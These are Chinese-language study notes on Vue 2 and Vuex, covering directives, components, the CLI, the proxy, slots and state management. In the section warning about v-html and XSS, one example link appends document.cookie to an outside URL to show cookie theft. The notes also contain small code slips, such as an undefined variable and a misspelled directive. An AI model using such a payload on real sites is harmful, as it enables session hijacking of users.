# Vue

- Vue (读音 /vjuː/，类似于 view) 是一套用于构建用户界面的渐进式框架。与其它大型框架不同的是，Vue 被设计为可以自底向上逐层应用。Vue 的核心库只关注视图层，不仅易于上手，还便于与第三方库或既有项目整合。另一方面，当与现代化的工具链以及各种支持类库结合使用时，Vue 也完全能够为复杂的单页应用提供驱动。

## Vue 核心

### Vue 简介

- 借鉴 Angular 的模板和数据绑定
- 借鉴 React 的组件化和虚拟 DOM 技术
  
  

### Vue 特点

1. 遵循 MVVM 模式
2. 编码简洁, 体积小, 运行效率高, 适合移动/PC 端开
3. 它本身只关注 UI, 也可以引入其它第三方库开发
   
   
   
   
   

### 模板语法

- html 中包含了一些 JS 语法代码，语法分为两种，分别为：
  - 插值语法（双大括号表达式）
  - 指令（以 v-开头

#### 插值语法

- 功能: 用于解析标签体内容
- 语法: {{xxx}} ，xxxx 会作为 js 表达式解析



#### 指令语法

- 功能: 解析标签属性、解析标签体内容、绑定事件
- 举例：`v-bind:href = 'xxxx'` ，xxxx 会作为 js 表达式被解析
- 说明：Vue 中有有很多的指令，此处只是用 v-bind 举个例子

### 数据绑定

- 单向数据绑定
  - 语法：`v-bind:href ="xxx"` 或简写为 `:href`
  - 特点：数据只能从 data 流向页面

<br>

- 双向数据绑定
  - 语法：`v-mode:value="xxx"` 或简写为 `v-model="xxx"`
  - 特点：数据不仅能从 data 流向页面，还能从页面流向 data

### Vue 数据代理

1. Vue 中的数据代理:
   - 通过 vm 对象来代理 data 对象中属性的操作(读/写)
2. Vue 中数据代理的好处:
   - 更加方便的操作 data 中的数据
3. 基本原理
   - 通过 `object.defineProperty()`把 data 对象中所有属性添加到 vm 上.
   - 为每一个添加到 vm 上的属性,都指定一个 getter/setter。
   - 在 getter/setter 内部去操作(读/写)data 中对应的属性。

```javascript
let obj1 = { x: 100 };
let obj2 = { y: 100 };
Object.defineProperty(obj2, "x", {
  get() {
    // 读取时
    return obj.x;
  },
  set(value) {
    // 修改时
    obj.x = value;
  },
});
```



### MVVM 模型

- 设计模式:设计模式是对代码分层, 引入一种架构的概念
- MVVM 好处:减少 DOM 操作, 提高开发效率

1. M：模型(Model) ：对应 data 中的数据
2. V：视图(View) ：模板
3. VM：视图模型(ViewModel) ： Vue 实例对象
   

### 事件处理

#### 绑定监听

1. 使用`v-on:xxx`或` @xxx` 绑定事件,其中 xxx 是事件名;
2. 事件的回调需要配置在 methods 对象中，最终会在 vm 上;
3. methods 中配置的函数，不要用箭头函数!否则 this 就不是 vm 了;
4. methods 中配置的函数，都是被 Vue 所管理的函数，this 的指向是 vm 或组件实例对象;
5. `@click="demo” `和 `@click="demo($event)” `效果一致，但后者可以传参;

#### 事件修饰符

1. `prevent: `阻止默认事件（常用）;
2. `stop: `阻止事件冒泡（常用）;
3. `once: `事件只触发一次（常用）;
4. `capture:` 使用事件的捕获模式;
5. `self:` 只有 event.target 是当前操作的元素时才触发事件:
6. `passive: `事件的默认行为立即执行,无需等待事件回调执行完毕;

#### 按键修饰符

1. Vue 中常用的按键别名:
   - 回车 => `enter`
   - 删除 => `delete `(捕获“删除”和“退格”键)
   - 退出 => `esc`
   - 空格 => `space`
   - 换行 => `tab `(特殊,必须配合 keydown 去使用)
   - 上 => `up`
   - 下 => `down`
   - 左 => `left`
   - 右 => `right`
2. Vue 未提供别名的按健，可以使用按健原始的 key 值去绑定，但注意要转为 kebab-case(短横线命名）
3. 系统修饰键（用法特殊）:ctrl、alt、shift、meta
   (1).配合 keyup 使用:按下修饰健的同时，再按下其他键，随后释放其他健，事件才被触发。
   (2).配合 keydown 使用:正常触发事件。
4. 也可以使用 keyCode 去指定具体的按键（不推荐)
5. Vue.config. keyCodes.自定义键名=键码,可以去定制按键别名

### 计算属性-computed

> 要显示的数据不存在，要通过计算得来。
> 在 computed 对象中定义计算属性。
> 在页面中使用{{方法名}}来显示计算的结果。

1. 定义:要用的属性不存在,要通过已有属性计算得来。
2. 原理:底层借助了 `objcet.defineproperty `方法提供的 getter 和 setter。
3. get 函数什么时候执行?
   - 初次读取时会执行一次。T
   - 当依赖的数据发生改变时会被再次调用。
4. 优势:与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便。
5. 备注:
   - 计算属性最终会出现在 vm 上，直接读取使用即可。
   - 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发

### 监视属性-watch

1. 当被监视的属性变化时,回调函数自动调用,进行相关操作
2. 监视的属性必须存在,才能进行监视!!
3. 监视的两种写法:
   - (1).new Vue 时传入 watch 配置
   - (2).通过 vm.$watch 监视

- 深度监视:
  - (1).Vue 中的 watch 默认不监测对象内部值的改变(一层)。
  - (2).配置 deep:true 可以监测对象内部值改变(多层）。
- 备注:
  - (1).Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以!
  - (2).使用 watch 时根据数据的具体结构，决定是否采用深度监视。




### computed 和 watch 的区别

1. computed 能完成的功能,watch 都可以完成。
2. watch 能完成的功能，computed 不一定能完成，例如: watch 可以进行异步操作。

- 两个重题的小原则:
  - 所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或组件实例对象。
  - 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等)，最好写成箭头函数，这样 this 的指向才是 vm 或组件实例对象。

### class 与 style 绑定

- 在应用界面中, 某个(些)元素的样式是变化的
- class/style 绑定就是专门用来实现动态样式效果的技术

1. class 样式
   - 写法`:class="xxx"` xxx 可以是字符串、对象、数组。
     - 字符串写法适用于:类名不确定,要动态获取。
     - 对象写法适用于:要绑定多个样式,个数不确定,名字也不确定。
     - 数组写法适用于:要绑定多个样式，个数确定，名字也确定，但不确定用不用。
2. style 样式
   - `:style="{fontsize: xxx}"` 其中 xxx 是动态值。
   - `:style="[a,b]"` 其中 a、b 是样式对象。

### 条件渲染

1. v-if
   - 写法:
     - (1)`.v-if="表达式"`
     - (2)`.v-else-if="表达式"`
     - (3)`.v-else="表达式"`
   - 适用于: 切换频率较低的场景。
   - 特点: 不展示的 DOM 元素直接被移除。
   - 注意: `v-if` 可以和 `:v-else-if`、`v-else `一起使用，但要求结构不能被“打断”。
2. v-show
   - 写法: v-show="表达式"
   - 适用于: 切换频率较高的场景。
   - 特点: 不展示的 DOM 元素未被移除，仅仅是使用样式隐藏掉
3. 备注:
   - 使用 v-if 的时，元素可能无法获取到，而使用 v-show 一定可以获取到。

### 列表渲染

- v-for 指令:
  - 用于展示列表数据
  - 语法: `v-for="(item,index) in xxx" ` `:key="yyy"`
  - 可遍历:数组、对象、字符串(用的很少)、指定次数(用的很少)

### key 的作用

> 面试题:react、 vue 中的 key 有什么作用? (key 的内部原理)

1. 虚拟 DOM 中 key 的作用:
   - key 是虚拟 DOM 对象的标识，当数据发生变化时，Vue 会根据【新数据】生成【新的虚拟 DOM】
   - 随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下:
2. 对比规则:
   - 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key:
     - 若虚拟 DOM 中内容没变,直接使用之前的真实 DOM !
     - 若虚拟 DOM 中内容变了，则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM.
   - 旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key
     - 创建新的真实 DOM，随后渲染到到页面。
3. 用 index 作为 key 可能会引发的问题:
   - 若对数据进行:逆序添加、逆序删除等破坏顺序操作:
     - 会产生没有必要的真实 DOM 更新==>界面效果没问题,但效率低。
   - 如果结构中还包含输入类的 DOM:
     - 会产生错误 DOM 更新 ==> 界面有问题。
4. 开发中如何选择 key?:

   - 最好使用每条数据的唯一标识作为 key，比如 id、手机号、身份证号、学号等唯一值。
   - 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用 index 作为 key 是没有问题的。




### Vue 监视数据原理：

1. vue 会监视 data 中所有层次的数据。
2. 如何监测对象中的数据?
   - 通过 setter 实现监视,且要在 new Vue 时就传入要监测的数据。
     - 对象中后追加的属性，Vue 默认不做响应式处理
     - 如需给后添加的属性做响应式，请使用如下 API:
       - ` Vue.set(target.propertyName/index,value)`或
       - ` vm.$set(target.propertyName/index,value)`
3. 如何监测数组中的数据?
   - 通过包裹数组更新元素的方法实现,本质就是做了两件事:
     - 调用原生对应的方法对数组进行更新。
     - 重新解析模板，进而更新页面。
4. 在 Vue 修改数组中的某个元素一定要用如下方法:
   - 使用这些 API:`push()、pop()、shift()、unshift()、splice()、sort()、reverse()`
   - `vue.set()`或 `vm.$set()`
5. 特别注意:`Vue.set()` 和 `vm.$set() `不能给 vm 或 vm 的根数据对象添加属性!!!

### 收集表单数据

- 若:`<input type="text" />`，则 v-model 收集的是 value 值，用户输入的就是 value 值。
- 若:`<input type="radio" />`，则 v-model 收集的是 value 值，且要给标签配置 value 值。
- 若: `<input type="checkbox" / >`
  - 没有配置 input 的 value 属性，那么收集的就是 checked(勾选 or 未勾选，是布尔值)
  - 配置 input 的 value 属性:
    - v-model 的初始值是非数组，那么收集的就是 checked(勾选 or 未勾选，是布尔值)
    - v-model 的初始值是数组，那么收集的的就是 value 组成的数组
- 备注:v-model 的三个修饰符:
  - `lazy`: 失去焦点再收集数据
  - `number`: 输入字符串转为有效的数字
  - `trim`: 输入首尾空格过滤

### 过滤器

- 定义:对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）.
- 语法:
  - 1.注册过滤器:`Vue.filter(name,callback)`或`new Vue{filters:{}}`
  - 2.使用过滤器: `{{ xxx │ 过滤器名 }}` 或 ` v-bind:属性="xxx │ 过滤器名"`
- 备注:
  - 1.过滤器也可以接收额外参数、多个过滤器也可以串联
  - 2.并没有改变原本的数据,是产生新的对应的数据
    
    

### 内置指令

- `v-bind:`单向绑定解析表达式,可简写为`:xxx`
- `v-model: `双向数据绑定
- `v-for:`遍历数组/对象/字符串
- `v-on:` 绑定事件监听，可简写为`@`
- `v-if: `条件渲染(动态控制节点是否存存在)
- `v-else:`条件渲染(动态控制节点是否存存在)
- `v-show:`条件渲染(动态控制节点是否展示)
- `v-text` 指令:
  - 作用:向其所在的节点中渲染文本内容。
  - 与插值语法的区别: `v-text` 会替换掉节点中的内容，{{xx}}则不会。
- `v-html` 指令:
  - 作用:向指定节点中渲染包含 html 结构的内容。
  - 与插值语法的区别:
    - `v-html` 会替换掉节点中所有的内容，`{{xx}}`则不会。
    - `v-html `可以识别 html 结构。 3.
  - 严重注意: `v-html` 有安全性问题!!!! - 在网站上动态渲染任意 HTML 是非常危险的,容易导致 XSS 攻击。 - 一定要在可信的内容上使用 `v-html`，永不要用在用户提交的内容上!
- `v-cloak` 指令（没有值）:

  - 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
  - 使用:

  ```html
  <style>
    [v-cloak] {
      display: none;
    }
  </style>
  ```

  - 配合 `v-cloak `可以解决网速慢时页面展示出{{xxx}}的问题。

- `v-once`指令:

  - `v-once`所在节点在初次动态渲染后，就视为静态内容了。
  - 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能。

- `v-pre`指令:

  - 跳过其所在节点的编译过程。
  - 可利用它跳过:没有使用指令语法、没有使用插值语法的节点，会加快编译。

  #### v-html cookie 安全问题

  `<a href=javascript:location.href="http://www.baidu.com?" +dotument.cookie>点击偷走cookie</a> `
  

### 自定义指令

- 定义语法：
  - 局部指令：
  ```js
  new Vue({                               new Vue({
     direcatives:{指令名:配置对象}   或者       direcatives{指令名:回调函数}
   })                                     })
  ```
- 配置对象中常用的 3 个回调:
  - `bind:` 指令与元素成功绑定时调用.
  - `inserted:` 指令所在元素被插入页面时调用.
  - `update:` 指令所在模板结构被重新解析时调用.
- 备注：
  - 指令定义时不加 `v-`，但使用时要加 `v-`;
  - 指令名如果是多个单词，要使用`kebab-case`命名方式，不要用`camelCase`命名。

### Vue 生命周期

- 又名: 生命周期回调函数、生命周期函数、生命周期钩子。
- 是什么: Vue 在关键时刻帮我们调用的一些特殊名称的函数。
- 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
- 生命周期函数中的 this 指向是 vm 或组件实例对象。

- 常用的生命周期钩子:
  - `mounted:`发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】
  - `beforeDestroy:`清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。
- 关于销毁 Vue 实例
  - 销毁后借助 Vue 开发者工具看不到任何信息。
  - 销毁后自定义事件会失效,但原生 DOM 事件依然有效。
  - 一般不会在 `beforeDestroy` 操作数据，因为即便操作数据，也不会再触发更新流程了。


## Vue 组件化编程

### 模块与组件、模块化与组件化

- 模块
  - 理解: 向外提供特定功能的 js 程序, 一般就是一个 js 文件
  - 为什么: js 文件很多很复杂
  - 作用: 复用 js, 简化 js 的编写, 提高 js 运行效
- 模块化
  - 当应用中的 js 都以模块来编写的, 那这个应用就是一个模块化的应用。
- 组件
  - 理解: 用来实现局部(特定)功能效果的代码集合(html/css/js/image…..)
  - 为什么: 一个界面的功能很复杂
  - 作用: 复用编码, 简化项目编码, 提高运行效率
- 组件化
  - 当应用中的功能都是多组件的方式来编写的, 那这个应用就是一个组件化的应用。





### 非单文件组件

- Vue 中使用组件的三大步骤
  - 定义组件（创建组件）
  - 注册组件
  - 使用组件（写组件标签）
- 如何定义一个组件？
  - 使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个 `options` 几乎一样,但也有点区别：
  - 区别如下：
    - `el`不要写，为什么?————最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器.
    - `data`必须写成函数，为什么?————避免组件被复用时,数据存在引用关系。
  - 备注:使用 template 可以配置组件结构。
- 如何注册组件?
  - 局部注册:靠 `new Vue `的时候传入 `components` 选项
  - 全局注册:靠 `Vue.component('组件名’,组件)`
- 三、编写组件标签:
  - `<school></school>`
- 几个注意点:
  - 关于组件名:
    - 一个单词组成:
      - 第一种写法(首字母小写):`school`
      - 第二种写法(首字母大写):`School`
    - 多个单词组成:
      - 第一种写法(kebab-case 命名):`my-school`
      - 第二种写法(CamelCase 命名):`MySchool`（需要 Vue 脚手架支持)
    - 备注:
      - 组件名尽可能回避 HTML 中已有的元素名称，例如: h2、H2 都不行。
      - 可以使用 name 配置项指定组件在开发者工具中呈现的名字-
  - 关于组件标签:
    - 第一种写法:`<school></school>`
    - 第二种写法: `<school/>`
    - 备注:不用使用脚手架时，`<school/>`会导致后续组件不能渲染。
  - 一个简写方式:
    - `const school = Vue.extend(options)`可简写为: `const school = options`

### VueComponent

- school 组件本质是一个名为`VueComponent`的构造函数，且不是程序员定义的，是`Vue.extend`生成的。
- 我们只需要写`<school/>`或`<school></school>`，Vue 解析时会帮我们创建 school 组件的实例对象，即 vue 帮我们执行的: `new VueComponent(options)`。
- 特别注意:每次调用 `Vue.extend`，返回的都是一个全新的 `VueComponent`!!!!
- 关于 `this` 指向:
  - 组件配置中:
    - data 函数、methods 中的函数、watch 中的函数、computed 中的函数它们的 this 均是【VueComponent 实例对象】.
  - `new Vue(options)`配置中:
    - data 函数、methods 中的函数、watch 中的函数、computed 中的函数它们的 this 均是【Vue 实例对象】。
- `VueComponent` 的实例对象，以后简称 vc（也可称之为:组件实例对象）。
  - Vue 的实例对象，以后简称 vm.

<br>

- 一个重要的内置关系:`VueComponent.prototype._proto_ == Vue.prototype`
- 为什么要有这个关系:让组件实例对象（vc）可以访问到 Vue 原型上的属性、方法。
  

### 单文件组件

- 一个`.vue`文件的组成(三个部分)

  ```vue
  <template>页面模板</template>

  <script>
  // 引入组件
  import *** from './***.vue'
  import *** from './***.vue'
  export default {
    JS 模块对象
  }
  </script>

  <style>
  样式定义
  </style>
  ```

## Vue 脚手架

- Vue 脚手架也叫 Vue CLI ，CLI 全名为 command line interface
- Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）。
- 文档: https://cli.vuejs.org/zh/。

### Vue 脚手架使用步骤

- 第一步（仅第一次执行）：全局安装@vue/cli。
  `npm install -g @vue/cli`
- 第二步：切换到你要创建项目的目录，然后使用命令创建项目
  `vue create xxxx`
- 第三步：启动项目
  `npm run serve`
- 备注：
  - 如出现下载缓慢请配置 npm 淘宝镜像：`npm config set registry` https://registry.npm.taobao.org
  - Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpack 配置，请执行：`vue inspect > output.js`

### 脚手架文件结构

- 项目目录

```bash
 vuecil-demo        # 项目目录
    ├── node_modules # 项目依赖的第三方包
    ├── public       # 静态文件目录
      ├── favicon.ico# 浏览器小图标
      └── index.html # 单页面的html文件(网页浏览的是它)
    ├── src          # 业务文件夹
      ├── assets     # 静态资源
        └── logo.png # vue的logo图片
      ├── components # 组件目录
        └── HelloWorld.vue # 欢迎页面vue代码文件
      ├── App.vue    # 整个应用的根组件
      └── main.js    # 入口js文件
    ├── .gitignore   # git提交忽略配置
    ├── babel.config.js  # babel配置
    ├── package.json  # 依赖包列表
    ├── README.md    # 项目说明
	└── yarn.lock    # 项目包版本锁定和缓存地址
```

<br>

- 关于不同版本的 Vue:
  - `vue.js `与 `vue.runtime.xxx.js` 的区别:
    - `vue.js `是完整版的 Vue,包含:核心功能+模板解析器。
    - `vue.runtime.xxx.js` 是运行版的 Vue，只包含:核心功能;没有模板解析器。
  - 因为 `vue.runtime.xxx.js` 没有模板解析器，所以不能使用 template 配置项，需要使用 render 函数接收到的 `createElement` 函数去指定具体内容。

<br>

- `vue.config.js`配置文件
  - 使用`vue inspect > output.js`可以查看到 Vue 脚手架的默认配置。
  - 使用`vue.config.js`可以对脚手架进行个性化定制，详情见: https://cli.vuejs.org/zh

### ref 属性

- 被用来给元素或子组件注册引用信息(id 的替代者)
- 应用在 htm1 标签上获取的是真实 DOM 元素，应用在组件标签上是组件实例对象(vc)
- 使用方式:
  - 打标识:`<h1 ref="xxx">....</h1>`或`<School ref="xxx"></School>`
  - 获取: `this.$refs.xxx`

### props 配置项

- 功能:让组件接收外部传过来的数据
  - 传递数据:
    
    - `<Demo name="xxx"/>`
  - 接收数据:
    - 第一种方式（只接收）:
      
      - `props: ["name"]`
    - 第二种方式(限制类型):
      - ```vue
        props:{ name:String }
        ```
    - 第三种方式(限制类型、限制必要性、指定默认值):
      - ```vue
        props:{ name:{ type:String， //类型 required:true， /必要性
        default:'老王' //默认值 } }
        ```
- 备注: props 是只读的，Vue 底层会监测你对 props 的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制 props 的内容到 data 中一份，然后去修改 data 中的数据。

### mixin 混合/混入

- 功能:可以把多个组件共用的配置提取成一个混入对象
- 使用方式:
  - 第一步定义混合，例如:
    - ```vue
      { 
        data(){
          ...
        },
        methods:{
          ....
        }, 
        .... 
      }
      ```
  - 第二步使用混入，例如:
    - 全局混入: `Vue.mixin(xxx)`
    - 局部混入: `mixins:['xxx']`

### Vue 插件

- 功能:用于增强 Vue
- 本质:包含 install 方法的一个对象，install 的第一个参数是 Vue，第二个以后的参数是插件使用者传递的数据。
- 定义插件:

  - ```js
    对象.install = function (Vue,options) {
      // 1．添加全局过滤器
      Vue.filter(....)

      // 2. 添加全局指令
      vue.directive(....)

      // 3．配置全局混入(合)
      Vue.mixin(....)

      // 4. 添加实例方法
      Vue.prototype.$myMethod = function () {..}
      vue.prototype.$myProperty = xxxx
    }
    ```

- 使用插件: `Vue.use()`

### scoped 样式

- 作用:让样式在局部生效。防止冲突.
- 写法: `<style scoped>`

### Todolist 案例

- 组件化编码流程:
  - 拆分静态组件:组件要按照功能点拆分，命名不要与 html 元素冲突。
  - 实现动态组件:考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用:
    - 一个组件在用:放在组件自身即可。
    - 一些组件在用:放在他们共同的父组件上(状态提升)。
  - 实现交互:从绑定事件开始。
- `props` 适用于:
  - 父组件==>子组件通信
  - 子组件==>父组件通信(要求父先给子一个函数)
- 使用 `v-model` 时要切记: `v-model` 绑定的值不能是 `props` 传过来的值，因为 `props` 是不可以修改的!
- `props` 传过来的若是对象类型的值，修改对象中的属性时 Vue 不会报错，但不推荐这样做。

### 组件的自定义事件

- 一种组件间通信的方式，适用于:子组件===>父组件
- 使用场景:A 是父组件，B 是子组件，B 想给 A 传数据，那么就要在 A 中给 B 绑定自定义事件(事件的回调在 A 中)。
- 绑定自定义事件:
  - 第一种方式，在父组件中: `<Demo @zidingyi="test"/>` 或 `<Demo v-on:zidingyi="test"/>`
  - 第二种方式，在父组件中:
    ```vue
    <Demo ref="demo" / > ...... mounted(){
    this.$refs.xxx.$on('zidingyi',this.test) }
    ```
  - 若想让自定义事件只能触发一次，可以使用 `once` 修饰符，或 `$once` 方法。
- 触发自定义事件: `this.$emit('zidingyi',数据)`
- 解绑自定义事件: `this.$off("zidingyi")`
- 组件上也可以绑定原生 DOM 事件，需要使用 `native` 修饰符。
- 注意:通过 `this.$refs.x.$on('zidingyi',回调)` 绑定自定义事件时，回调要么配置在 methods 中，要么用箭头函数，否则 this 指向会出问题!

### 全局事件总线 (GlobalEventBus)

- 一种组件间通信的方式，适用于任意组件间通信。
- 安装全局事件总线:
  ```vue
  new vue({ 
    ...... 
    beforeCreate() { 
      Vue.prototype.$bus = this
      //安装全局事件总线，$bus 就是当前应用的 vm 
    }, 
    ......
  })
  ```
- 使用事件总线:
  - 接收数据:A 组件想接收数据，则在 A 组件中给 `$bus` 绑定自定义事件，事件的回调留在 A 组件自身。
    ```vue
    methods(){ 
      demo(data){......} 
    } 
    mounted() { 
      this.$bus.$on('xxxx',this.demo)
    }
    ```
  - 提供数据: `this.$bus.$emit('xxxx',数据)`
- 最好在 `beforeDestroy `钩子中，用 `$off` 去解绑当前组件所用到的事件。

### 消息订阅与发布 (pubsub)

- 一种组件间通信的方式，适用于任意组件间通信。
- 使用步骤:
  - 安装 pubsub: `npm i pubsub-js`
  - 引入: `import pubsub from 'pubsub-js'`
  - 接收数据:A 组件想接收数据，则在 A 组件中订阅消息，订阅的回调留在 A 组件自身。
    ```vue
    methods(){ 
      demo(data){......} 
    } 
    ...... 
    mounted() { 
      this.pid =pubsub.subscribe("xxx",this.demo) //订阅消息. 
    }
    ```
  - 提供数据: `pubsub.publish('xxx",数据)`
  - 最好在 beforeDestroy 钩子中，用 `PubSub .unsubscribe(pid) `去 `<span style="color : red"">取消订阅。</span>`

### nextTick

- 语法: `this.$nextTick(回调函数)`
- 作用:在下一次 DOM 更新结束后执行其指定的回调。
- 什么时候用:当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行。

### Vue 封装的过度与动画

1. 作用：在插入、更新或移除 DOM 元素时，在合适的时候给元素添加样式类名。

2. 图示：
   

3. 写法：

   1. 准备好样式：

      - 元素进入的样式：
        1. v-enter：进入的起点
        2. v-enter-active：进入过程中
        3. v-enter-to：进入的终点
      - 元素离开的样式：
        1. v-leave：离开的起点
        2. v-leave-active：离开过程中
        3. v-leave-to：离开的终点

   2. 使用`<transition>`包裹要过度的元素，并配置 name 属性：

      ```vue
      <transition name="hello">
       <h1 v-show="isShow">你好啊！</h1>
      </transition>
      ```

   3. 备注：若有多个元素需要过度，则需要使用：`<transition-group>`，且每个元素都要指定`key`值。

## Vue 中的 Ajax

### vue 脚手架配置代理

- **方法一**

 在 vue.config.js 中添加如下配置：

```js
devServer: {
  proxy: "http://localhost:5000";
}
```

说明：

1. 优点：配置简单，请求资源时直接发给前端（8080）即可。
2. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理。
3. 工作方式：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器 （优先匹配前端资源）

- **方法二**

 编写 vue.config.js 配置具体代理规则：

```js
module.exports = {
  devServer: {
    proxy: {
      "/api1": {
        // 匹配所有以 '/api1'开头的请求路径
        target: "http://localhost:5000", // 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: { "^/api1": "" },
      },
      "/api2": {
        // 匹配所有以 '/api2'开头的请求路径
        target: "http://localhost:5001", // 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: { "^/api2": "" },
      },
    },
  },
};
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```

说明：

1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. 缺点：配置略微繁琐，请求资源时必须加前缀。

### 插槽

1. 作用：让父组件可以向子组件指定位置插入 html 结构，也是一种组件间通信的方式，适用于 <strong style="color:red">父组件 ===> 子组件</strong> 。

2. 分类：默认插槽、具名插槽、作用域插槽

3. 使用方式：

   1. 默认插槽：

      ```vue
      父组件中：
      <Category>
        <div>html结构1</div>
      </Category>
      子组件中：
      <template>
        <div>
          <!-- 定义插槽 -->
          <slot>插槽默认内容...</slot>
        </div>
      </template>
      ```

   2. 具名插槽：

      ```vue
      父组件中：
      <Category>
        <template slot="center">
          <div>html结构1</div>
        </template>
        <template v-slot:footer>
           <div>html结构2</div>
        </template>
      </Category>
      子组件中：
      <template>
        <div>
          <!-- 定义插槽 -->
          <slot name="center">插槽默认内容...</slot>
          <slot name="footer">插槽默认内容...</slot>
        </div>
      </template>
      ```

   3. 作用域插槽：

      1. 理解：<span style="color:red">数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。</span>（games 数据在 Category 组件中，但使用数据所遍历出来的结构由 App 组件决定）

      2. 具体编码：

        ```vue
        父组件中：
        <Category>
          <template scope="scopeData">
            <!-- 生成的是ul列表 -->
            <ul>
              <li v-for="g in scopeData.games" :key="g">{{g}}</li>
            </ul>
          </template>
        </Category>

        <Category>
          <template slot-scope="scopeData">
            <!-- 生成的是h4标题 -->
            <h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
          </template>
        </Category>
        子组件中：
        <template>
          <div>
            <slot :games="games"></slot>
          </div>
        </template>

        <script>
          export default {
            name: "Category",
            props: ["title"],
            //数据在子组件自身
            data() {
              return {
                games: ["红色警戒", "穿越火线", "劲舞团", "超级玛丽"],
              };
            },
          }
        </script>
        ``
     ```
   
```
   
   ```

## Vuex

- 概念
  ​- 在 Vue 中实现集中式状态（数据）管理的一个 Vue 插件，对 vue 应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。
- 何时使用?
  - 多个组件需要共享数据时





### 搭建 Vuex 环境

1. 创建文件：`src/store/index.js`

   ```js
   //引入Vue核心库
   import Vue from "vue";
   //引入Vuex
   import Vuex from "vuex";
   //应用Vuex插件
   Vue.use(Vuex);

   //准备actions对象——响应组件中用户的动作
   const actions = {};
   //准备mutations对象——修改state中的数据
   const mutations = {};
   //准备state对象——保存具体的数据
   const state = {};

   //创建并暴露store
   export default new Vuex.Store({
     actions,
     mutations,
     state,
   });
   ```

2. 在`main.js`中创建 vm 时传入`store`配置项

   ```js
   ......
   //引入store
   import store from './store'
   ......

   //创建vm
   new Vue({
    el:'#app',
    render: h => h(App),
    store
   })
   ```

### Vuex 基本使用

1. 初始化数据、配置`actions`、配置`mutations`，操作文件`store.js`

   ```js
   //引入Vue核心库
   import Vue from "vue";
   //引入Vuex
   import Vuex from "vuex";
   //引用Vuex
   Vue.use(Vuex);

   const actions = {
     //响应组件中加的动作
     jia(context, value) {
       // console.log('actions中的jia被调用了',miniStore,value)
       context.commit("JIA", value);
     },
   };

   const mutations = {
     //执行加
     JIA(state, value) {
       // console.log('mutations中的JIA被调用了',state,value)
       state.sum += value;
     },
   };

   //初始化数据
   const state = {
     sum: 0,
   };

   //创建并暴露store
   export default new Vuex.Store({
     actions,
     mutations,
     state,
   });
   ```

2. 组件中读取 vuex 中的数据：`$store.state.sum`

3. 组件中修改 vuex 中的数据：`$store.dispatch('action中的方法名',数据)` 或 `$store.commit('mutations中的方法名',数据)`

   > 备注：若没有网络请求或其他业务逻辑，组件中也可以越过 actions，即不写`dispatch`，直接编写`commit`

### getters 的使用

1. 概念：当 state 中的数据需要经过加工后再使用时，可以使用 getters 加工。

2. 在`store.js`中追加`getters`配置

   ```js
   ......

   const getters = {
    bigSum(state){
     return state.sum * 10
    }
   }

   //创建并暴露store
   export default new Vuex.Store({
    ......
    getters
   })
   ```

3. 组件中读取数据：`$store.getters.bigSum`

### map 方法的使用

1. <strong>mapState 方法：</strong>用于帮助我们映射`state`中的数据为计算属性

   ```js
   computed: {
       //借助mapState生成计算属性：sum、school、subject（对象写法）
        ...mapState({sum:'sum',school:'school',subject:'subject'}),

       //借助mapState生成计算属性：sum、school、subject（数组写法）
       ...mapState(['sum','school','subject']),
   },
   ```

2. <strong>mapGetters 方法：</strong>用于帮助我们映射`getters`中的数据为计算属性

   ```js
   computed: {
       //借助mapGetters生成计算属性：bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),

       //借助mapGetters生成计算属性：bigSum（数组写法）
       ...mapGetters(['bigSum'])
   },
   ```

3. <strong>mapActions 方法：</strong>用于帮助我们生成与`actions`对话的方法，即：包含`$store.dispatch(xxx)`的函数

   ```js
   methods:{
       //靠mapActions生成：incrementOdd、incrementWait（对象形式）
       ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})

       //靠mapActions生成：incrementOdd、incrementWait（数组形式）
       ...mapActions(['jiaOdd','jiaWait'])
   }
   ```

4. <strong>mapMutations 方法：</strong>用于帮助我们生成与`mutations`对话的方法，即：包含`$store.commit(xxx)`的函数

   ```js
   methods:{
       //靠mapActions生成：increment、decrement（对象形式）
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),

       //靠mapMutations生成：JIA、JIAN（对象形式）
       ...mapMutations(['JIA','JIAN']),
   }
   ```

> 备注：mapActions 与 mapMutations 使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。

### 模块化+命名空间

